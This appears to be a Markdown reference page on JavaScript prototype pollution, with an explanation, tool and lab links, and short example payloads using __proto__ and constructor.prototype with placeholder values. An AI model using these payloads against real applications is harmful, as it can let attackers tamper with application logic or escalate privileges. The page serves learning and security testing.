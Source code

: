 # Prototype Pollution

> Prototype pollution is a type of vulnerability that occurs in JavaScript when properties of Object.prototype are modified. This is particularly risky because JavaScript objects are dynamic and we can add properties to them at any time. Also, almost all objects in JavaScript inherit from Object.prototype, making it a potential attack vector.


## Summary

* [Tools](#tools)
* [Labs](#labs)
* [Exploit](#exploit)
    * [Examples](#examples)
    * [Prototype pollution via JSON input](#prototype-pollution-via-json-input)
    * [Prototype pollution payloads](#prototype-pollution-payloads)
* [References](#references)


## Tools

* [yeswehack/pp-finder](https://github.com/yeswehack/pp-finder) - Help you find gadget for prototype pollution exploitation


## Labs

* [YesWeHack Dojo - Prototype Pollution](https://dojo-yeswehack.com/XSS/Training/Prototype-Pollution)
* [PortSwigger - Prototype pollution](https://portswigger.net/web-security/all-labs#prototype-pollution)


## Exploit

In JavaScript, prototypes are what allow objects to inherit features from other objects. If an attacker is able to add or modify properties of `Object.prototype`, they can essentially affect all objects that inherit from that prototype, potentially leading to various kinds of security risks.


### Examples

* Imagine that an application uses an object to maintain configuration settings, like this:
    ```js
    let config = {
        isAdmin: false
    };
    ```
* An attacker might be able to add an `isAdmin` property to `Object.prototype`, like this:
    ```js
    Object.prototype.isAdmin = true;
    ```


### Prototype pollution via JSON input

You can access the prototype of any object via the magic property `__proto__`.

```js
{
    "__proto__": {
        "evilProperty": "evilPayload"
    }
}
```


### Prototype pollution payloads

```js
Object.__proto__["evilProperty"]="evilPayload"
Object.__proto__.evilProperty="evilPayload"
Object.constructor.prototype.evilProperty="evilPayload"
Object.constructor["prototype"]["evilProperty"]="evilPayload"
{"__proto__": {"evilProperty": "evilPayload"}}
```


## References

* [Server side prototype pollution, how to detect and exploit - YesWeHack](https://blog.yeswehack.com/talent-development/server-side-prototype-pollution-how-to-detect-and-exploit/)
* [Prototype Pollution and Where to Find Them - BitK & SakiiR - AUGUST 14, 2023](https://youtu.be/mwpH9DF_RDA)
* [Prototype Pollution - PortSwigger](https://portswigger.net/web-security/prototype-pollution)
* [A Pentester’s Guide to Prototype Pollution Attacks - HARSH BOTHRA - JAN 2, 2023](https://www.cobalt.io/blog/a-pentesters-guide-to-prototype-pollution-attacks)
* [Prototype pollution - Snyk](https://learn.snyk.io/lessons/prototype-pollution/javascript/)
* [NodeJS - __proto__ & prototype Pollution - HackTricks](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution)